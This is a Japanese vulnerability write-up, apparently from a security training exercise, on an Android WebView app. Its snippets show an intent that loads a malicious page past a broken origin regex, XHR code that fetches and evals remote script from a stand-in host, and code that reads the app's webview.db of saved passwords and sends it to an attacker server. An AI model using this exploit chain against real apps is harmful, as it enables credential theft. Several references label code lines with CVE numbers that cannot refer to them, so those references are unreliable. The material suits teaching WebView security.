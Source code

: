 という問題があります。
これは主に `webview.getSettings().setJavaScriptEnabled(true);` というコードと、
CVE-2012-6636 の行によって発生します。

スクリプトを注入する方法について書きます。

まず、 CVE-2014-3500 の行を見ると外部からインテントで任意のページを渡せることが分かります。
CVE-2012-6637 の行でオリジンをチェックしているように見えますが正規表現にミスがあるため、
クエリストリングなどに ALLOW_ORIGIN を追加すれば特に問題はありません。

```java
// 外部のアプリからインテントを発行して任意のサイトにアクセスさせる例。
final String ACTION_LOAD = "jp.example.app.action.LOAD";
final String ALLOW_ORIGIN = "http://www.ipa.go.jp";
final String MALCIOUS_SITE = "http://example.com"
final Intent intent = new Intent(ACTION_LOAD);
intent.putExtra("url", MALCIOUS_SITE + "?" + ALLOW_ORIGIN);
sendBroadcast(intent);
```

また、 CVE-2014-1883 の行に関してですが、 iframe や XMLHttpRequest は shouldOverrideUrlLoading を経由しないので、
そもそもオリジンをチェックしていないことが分かります。
ALLOW_ORIGIN 内に iframe があり、iframe からリンクを辿れる場所に任意のスクリプト設置できるとすろと、
そこに悪意のあるスクリプトを設置し、待ち伏せすることが出来そうです。
XMLHttpRequest に関しては、スクリプトを任意のサーバに設置し、
XMLHttpRequest で取得し eval することなどが出来ます。

```javascript
// http://example.com に悪意のあるスクリプトが設置してあると仮定して、
// 外部のスクリプトを eval する例。
var malciousSite = "http://example.com";
var xhr = new XMLHttpRequest();
xhr.open("GET", malciousSite, false);
xhr.send(null);
var script = xhr.responseText;
eval(script);
```

加えて、 CVE-2014-5991 の行によって SSL のエラーを無視しているため DNS 偽装と正しくない証明書などを使って、
ALLOW_ORIGIN になりすますことも可能です。

注入したスクリプトによってどんな被害が生じるかについて書きます。
基本的に JavaScript で出来ることは何でも出来ます。
JavaScript だけでは出来ないことの例としてローカルのファイルにアクセスすることがありますが、
CVE-2012-4009 の行によってローカルのファイルにこのアプリの権限でアクセスできます。
よって、意図せぬファイルが外部のサーバに送信される可能性などがあります。
下記でいくつかコードの例を示すが、 `sendDataToServerOfAtaccker` という関数は、
文字列を攻撃者のサーバに送信する関数とします。
ここで、 Same Origin Policy の影響を受けるので、スクリプトはローカルか攻撃者のサーバにあるものとします。

```javascript
// このアプリのパッケージが com.example.lambdasawa.seccamp だと仮定して、
// /data/data/com.example.lambdasawa.seccamp/databases/webview.db を外部のサーバに送信する例。
// このファイルには WebView で保存したパスワードなどが平文で保存されている。
var file =
  "file:///data/data/com.example.lambdasawa.seccamp/databases/webview.db";
var xhr = new XMLHttpRequest();
xhr.open("GET", file, false);
xhr.send(null);
var cache = xhr.responseText;
sendDataToServerOfAtaccker(cache);
```
